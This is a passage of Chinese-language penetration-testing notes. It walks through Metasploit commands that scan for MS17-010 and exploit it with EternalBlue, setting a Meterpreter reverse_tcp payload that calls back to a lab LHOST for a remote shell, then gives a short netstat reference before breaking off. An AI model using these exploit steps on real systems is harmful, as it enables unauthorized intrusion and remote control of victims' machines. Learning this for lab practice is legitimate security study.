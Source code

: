 

它本身附带数百个已知软件漏洞，**是一款专业级漏洞攻击工具**



#### 使用

根据漏洞名称搜索 : `search ms17_010`

1、运用辅助模块扫描目标

设置模块：`use auxiliary/scanner/smb/smb_ms17_010`

查看设置：`options` 

设置目标地址：`set rhosts 192.168.174.129`

目标端口默认是445，如果用nmap端口扫描windows文件共享服务不是开放在445端口上面，那这里需要进行修改，`set rport 目标端口`

设置好了之后，`run`或者`exploit` 进行攻击



2、设置攻击模块对目标进行攻击



使用攻击模块：`use exploit/windows/smb/ms17_010_eternalblue`

查看所需设置：`options` 

设置目标地址：`set RHOSTS 192.168.174.129`

设置目标端口：`set RPORT 445`

设置payload：`set payload windows/x64/meterpreter/reverse_tcp`

设置本地地址：`set LHOST 192.168.174.192`

攻击：`run`或者`exploit` 





### Linux命令

**命令：netstat**

用途：查看系统的网络连接状态、路由表、接口统计等信息

格式：netstat [选项]

常用选项：

- -a：显示所有活动连接
- -n：以数字形式显示
- -p：显示进程信息
- -t：查看TCP协议相关信息
- -u：查看UDP协议相关信息
- -r：显示路由表信息



**命令：network**
